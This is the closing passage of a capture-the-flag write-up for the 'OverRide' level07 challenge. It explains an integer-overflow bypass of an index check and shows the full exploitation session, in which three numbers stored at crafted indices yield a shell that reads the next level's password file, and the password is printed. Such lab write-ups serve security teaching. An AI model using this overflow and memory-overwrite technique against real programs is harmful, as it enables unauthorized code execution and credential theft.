 But as `114` is a multiple of 3, we need to find the nearest `int` overflow: `114` + largest `32-bit` integer.

`114` + `2147483647` + `1` = **2147483762**

## Flag

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store 
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115	
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```